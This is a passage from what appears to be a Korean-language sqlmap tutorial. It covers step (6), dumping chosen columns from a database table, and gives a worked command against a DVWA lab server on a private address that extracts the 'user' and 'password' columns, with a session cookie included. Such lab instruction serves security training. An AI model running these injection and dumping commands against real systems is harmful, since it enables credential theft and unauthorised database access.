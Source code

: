
![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/165739282/fa9a69d3-b889-41d3-833c-e056650cdbf3)

< 명령어 입력 >


![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/165739282/0a33dcfa-a009-4d99-88b9-8378ef08987d)

< 결과값 출력 >



( 6 ) 지정된 DB 에 속한 테이블의 특정 컬럼 덤프하기

기본 명령어 형식 : sqlmap -u URL -p 파라미터명 (선택사항 --cookie=쿠키값) -D 데이터베이스명 -T 테이블명 -C "컬럼명(복수 가능)" --dump
사용예 : sqlmap -u "http://192.168.100.131/dvwa/vulnerabilities/sqli/?id=koromoon&Submit=Submit#" -p id --cookie="security=low; PHPSESSID=300fgn00aunr01ejf32u9io0u6; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" -D dvwa -T users -C "user,password" --dump

명령어 입력 후 도중에 Y 나 Enter 눌러서 진행함.​
덤프된 파일은 sqlmal 툴 -> output 폴더 -> IP or URL 폴더 -> dump 폴더 안에 생성됨.
(ex. /home/kali/.sqlmap/output/192.168.100.131/dump)

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/165739282/a9492e7f-58ba-450e-bdfa-08d53f0c5e04)

< 명령어 입력 >


![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/165739282/532ae9ad-86d2-4bfa-b5e4-15b18b9aec55)

< 결과값 출력 >



